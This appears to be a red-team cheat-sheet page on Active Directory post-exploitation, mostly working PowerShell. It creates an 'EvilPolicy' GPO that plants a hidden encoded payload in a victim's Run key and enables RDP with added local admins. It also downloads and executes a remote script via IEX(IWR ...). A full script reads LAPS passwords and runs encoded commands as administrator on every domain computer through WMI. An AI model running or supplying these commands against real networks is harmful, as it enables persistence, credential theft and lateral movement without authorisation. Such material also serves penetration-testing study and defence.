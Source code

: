 ```yaml
---
description: AD Post Exploitation
---
```


# Post Exploitation




## Reach a Locked Down Domain Computer

If you find yourself in a situation when you're already a domain admin and you need to access a "locked down" domain computer (no RDP/WinRM, no SMB shares, no owned local admins, etc.), creating an evil GPO may help.

Identify the OU containing the VICTIM-PC object:

```
PS > Add-WindowsFeature -Name "RSAT-AD-PowerShell"
PS > Import-Module ActiveDirectory
Or
PS > IEX(IWR "https://raw.githubusercontent.com/S3cur3Th1sSh1t/Creds/master/PowershellScripts/ADModuleImport.ps1" -UseBasicParsing)

PS > Get-ADComputer -Identity VICTIM-PC | select DistinguishedName
```

Create the GPO using PowerShell (will trigger your command when the victim user logs in):

* [How to Hack Like a Pornstar / Best hacking books for aspiring hackers - Real life hacking scenarios](https://www.sparcflow.com/best-hacking-books/)

```
PS > Add-WindowsFeature -Name "GPMC"
PS > Import-Module GroupPolicy
PS > New-GPO -Name EvilPolicy -Domain megacorp.local -Server DC01.megacorp.local
PS > Set-GPPermission -Name EvilPolicy -Replace -PermissionLevel GpoApply -TargetName "victim.user" -TargetType User
PS > Set-GPPermission -Name EvilPolicy -Replace -PermissionLevel GpoApply -TargetName "VICTIM-PC" -TargetType Computer
PS > Set-GPPermission -Name EvilPolicy -PermissionLevel None -TargetName "Authenticated Users" -TargetType Group
PS > New-GPLink -Name EvilPolicy -Domain megacorp.local -Target "<TARGET_OU>" -Order 1 -Enforced Yes
PS > Set-GPRegistryValue -Name EvilPolicy -Key "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run" -ValueName MSstart -Type String -Value "powershell.exe -NoP -sta -NonI -W Hidden -Exec Bypass -Enc <BASE64_CMD>"
```

Create the GPO using GPMC (will enable RDP and add owned user/group to local administartors group on VICTIM-PC):

1. Run > `gpmc.msc`.
2. Create new GPO, link it to the OU and edit.
3. `<POLICY_NAME>` > Computer Configuration > Policies > Windows Settings > Security Settings > Windows Firewall with Advanced Security > Windows Firewall with Advanced Security > Inbound Rules > New Rule (right-click) > Predefined > Remote Desktop > Allow.
4. `<POLICY_NAME>` > Computer Configuration > Preferences > Control Panel Settings > New Local Group (right-click) > Group name (`...`) > Members (Add) > Apply > OK.

Usually, it takes between 90 and 120 minutes for a new GPO to be applied.




## Run on Domain Computers

* [How to Hack Like a Pornstar / Best hacking books for aspiring hackers - Real life hacking scenarios](https://www.sparcflow.com/best-hacking-books/)

An example PowerShell script to execute commands as a local admin on all domain computers pulling LAPS passwords automatically:

{% code title="ADComputersCmd.ps1" %}
```powershell
 # Save with Encoding "UTF-8 with BOM"

[System.Console]::OutputEncoding = [System.Text.Encoding]::UTF8
$ErrorActionPreference = "Stop"

$command = '[System.Console]::OutputEncoding = [System.Text.Encoding]::UTF8; '
$command += 'whoami > C:\Windows\Temp\whoami.txt 2>&1'
$bytes = [System.Text.Encoding]::Unicode.GetBytes($command)
$encodedCommand = [Convert]::ToBase64String($bytes)

Get-ADComputer -Filter * -Properties ms-Mcs-AdmPwd | ? {$_.name -ne $(hostname)} | select name,ms-Mcs-AdmPwd | ForEach-Object {
	$comp = $_."name"
	$pass = $_."ms-Mcs-AdmPwd"

	if (Test-Connection -BufferSize 32 -Count 1 -ComputerName $comp -Quiet) {
		try {
			$cred = New-Object System.Management.Automation.PSCredential("$comp\administrator", $(ConvertTo-SecureString $pass -AsPlainText -Force))
			$proc = Invoke-WmiMethod Win32_Process -Name Create -ArgumentList ("powershell -enc $encodedCommand") -ComputerName $comp -Credential $cred

			do {
				Write-Host -ForegroundColor Green "[*] Waiting for script to finish on $comp"
				Start-Sleep -Seconds 2
			} until ((Get-WmiObject -Class Win32_Process -Filter "ProcessId=$proc.ProcessId" -ComputerName $comp -Credential $cred | where {$_.ProcessId -eq $proc.ProcessId}).ProcessId -eq $null)

			net use "\\$comp" /user:administrator $pass 2>&1 | Out-Null
			Get-Content "\\$comp\C$\Windows\Temp\whoami.txt"
			Remove-Item "\\$comp\C$\Windows\Temp\whoami.txt" -Force
			net use "\\$comp" /delete 2>&1 | Out-Null
		}
		catch {
			Write-Host -ForegroundColor Red "[-] Connection failure: $comp"
		}
	}
	else {
		Write-Host -ForegroundColor Yellow "[!] Connection timed out: $comp"
	}
}
```
{% endcode %}
